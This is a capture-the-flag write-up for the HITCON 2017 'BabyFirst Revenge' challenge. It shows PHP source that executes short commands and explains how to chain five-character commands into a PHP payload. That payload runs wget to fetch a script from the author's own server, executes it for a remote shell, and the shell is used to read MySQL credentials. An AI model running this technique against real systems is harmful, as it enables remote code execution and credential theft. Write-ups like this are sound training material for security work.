 # BabyFirst-Revenge-HITCOIN-2017-QUALS

When we visite site, we see
#### Source Code:
```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__); 
```
Here we can execute commands on server, which are <=5.  There is an easy way how to solve this task with the help of \ symbol, but i choose the stupid one :D 
The main idea is to write a php script, which will execute shell command  
``` wget myserverip ```  
, and then run it with  
``` sh index.html ( sh i*) ```  
  
  We will use ```ls``` command to write php code in file. But the main difficulty is that ```ls>>a``` will first make file ```a```, and then prints it with other files. So i decided to name my file as ```%0d```. Our task is to produce this code  
``` <?php $a="abcdefghijklmnopqrstuvwxyz0123456789 ";$b=$a;$b[0]=$a[23];$b[1]=$a[7];.....;exec($b); ```  
  
 But we must take into account that we can write only 4 characters per time (>abcd); First we must create file %0d, we request ```http://52.199.204.34/?cmd=>%0d```. Secondly we cant create ```<?php``` , but luckily ```<?=``` will also work. So we run  
 ```
 >\<?=
 ls>>%0d
 rm *=
 ```  
 Ater each file create and file writing, we must delete it in order not to write it again into %0d file. Then we continue create/write our 'gadgets'.  
 ``` 
 >\$a
 ls>>%0d
 rm *a
 
 >=\"
 ls>>%0d
 rm =*
 
 etc.
 ```
 All request we can make with help of burpintruder with timeout between requests 1 second. After sending all requests we run
```
 php ?
```
index.html will be downloaded on target server. Than we run  
```
. i*
```
and get remote shell. In the home directory was login/password for MySql database where flag was stored. Than we simply extract data from it and get the flag. 
